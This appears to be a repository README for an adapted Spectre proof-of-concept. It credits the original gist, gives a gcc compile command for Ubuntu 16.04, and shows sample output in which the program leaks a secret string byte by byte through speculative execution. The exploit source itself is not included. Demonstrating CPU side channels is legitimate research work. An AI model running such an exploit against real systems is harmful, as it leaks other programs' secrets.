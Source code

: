 # meltdown_specre

# Thanks

Thank you to https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6 for this code.  I modified it to work on ubuntu-xenial-16.04-amd64-server-20170721 (ami-cd0f5cb6)

# Specre

To Compile on ubuntu 16.04

    # gcc spectre.c -o specre
    
# Sample Output

    root@brakerubuntu:/tmp/src]# ./specre
    Reading 40 bytes:
    Reading at malicious_x = 0xffffffffffdfebb8... Success: 0x54=’T’ score=2
    Reading at malicious_x = 0xffffffffffdfebb9... Success: 0x68=’h’ score=2
    Reading at malicious_x = 0xffffffffffdfebba... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebbb... Success: 0x20=’ ’ score=7 (second best: 0xDE score=1)
    Reading at malicious_x = 0xffffffffffdfebbc... Success: 0x4D=’M’ score=2
    Reading at malicious_x = 0xffffffffffdfebbd... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebbe... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebbf... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebc0... Success: 0x63=’c’ score=2
    Reading at malicious_x = 0xffffffffffdfebc1... Success: 0x20=’ ’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc2... Success: 0x57=’W’ score=2
    Reading at malicious_x = 0xffffffffffdfebc3... Success: 0x6F=’o’ score=2
    Reading at malicious_x = 0xffffffffffdfebc4... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebc5... Success: 0x64=’d’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc6... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebc7... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebc8... Success: 0x61=’a’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc9... Success: 0x72=’r’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebca... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebcb... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebcc... Success: 0x53=’S’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcd... Success: 0x71=’q’ score=2
    Reading at malicious_x = 0xffffffffffdfebce... Success: 0x75=’u’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcf... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebd0... Success: 0x61=’a’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd1... Success: 0x6D=’m’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd2... Success: 0x69=’i’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd3... Success: 0x73=’s’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd4... Success: 0x68=’h’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd5... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebd6... Success: 0x4F=’O’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd7... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd8... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd9... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebda... Success: 0x66=’f’ score=2
    Reading at malicious_x = 0xffffffffffdfebdb... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebdc... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebdd... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebde... Success: 0x65=’e’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebdf... Success: 0x2E=’.’ score=2
